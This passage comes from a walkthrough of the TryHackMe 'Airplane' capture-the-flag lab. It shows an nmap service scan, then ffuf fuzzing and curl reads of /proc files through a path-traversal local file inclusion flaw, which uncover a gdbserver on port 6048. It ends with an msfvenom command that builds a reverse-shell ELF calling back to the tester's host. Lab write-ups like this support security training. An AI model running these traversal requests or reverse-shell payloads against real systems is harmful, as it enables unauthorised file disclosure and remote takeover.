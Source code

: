 We see that the target listens on port 6048 which we did not scan earlier. We can perform a quick service scan on this port using Nmap.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Airplane/Scans/Service]
└─$ nmap -n 10.10.158.63 -sV -sC -p6048 -oN  6048-service.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-11 16:11 BST
Nmap scan report for 10.10.158.63
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
6048/tcp open  x11?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.52 seconds
```

This port appears to run a service that couldn't be identified by Nmap. We can attempt to read the `cmdline` file of this process in the `proc` folder. We first need to identify which folder contains this process's informations. We can create a wordlist of process IDs that we can use to fuzz the file system using the LFI vulnerability we discoverd earlier.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Airplane/Misc File]
└─$ seq 1 1000 > PIDs.txt 
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Airplane/Misc File]
└─$ ffuf -ic -c -u 'http://airplane.thm:8000/?page=../../../../proc/FUZZ/environ' -w ./PIDs.txt  -fc 500 -fs 14
<SNIP>

538                     [Status: 200, Size: 437, Words: 1, Lines: 1, Duration: 95ms]
542                     [Status: 200, Size: 437, Words: 1, Lines: 1, Duration: 95ms]
592                     [Status: 200, Size: 454, Words: 1, Lines: 1, Duration: 93ms]
:: Progress: [1000/1000] :: Job [1/1] :: 70 req/sec :: Duration: [0:00:09] :: Errors: 0 ::
```

We can see that we access three processes on the target. We can read the `cmdline` file to enumerate the command use to start these processes. This file contain the NULL cahracter `\x00` at its end so we need to replace it with any other character e.g space  to see it contents.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Airplane/Misc File]
└─$ curl -s 'http://airplane.thm:8000/?page=../../../../proc/538/cmdline' | sed 's/\x00/ /g'
/usr/bin/gdbserver 0.0.0.0:6048 airplane                                                                                                                                                                                              
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Airplane/Misc File]
└─$ curl -s 'http://airplane.thm:8000/?page=../../../../proc/542/cmdline' | sed 's/\x00/ /g'
/usr/bin/python3 app.py                                                                                                                                                                                              
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Airplane/Misc File]
└─$ curl -s 'http://airplane.thm:8000/?page=../../../../proc/592/cmdline' | sed 's/\x00/ /g'
/opt/airplane  
```

We can see above that a GDB server is listening on port 6048 we saw earlier. The GDB server is a computer program that makes it possible to remotely debug other programs. This [post](https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver) explains how to exploit this server. We first start by creating a payload using `msfvenom`.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Airplane/Misc File]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.23.19 LPORT=1234 PrependFork=true -f elf -o binary.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Final size of elf file: 226 bytes
```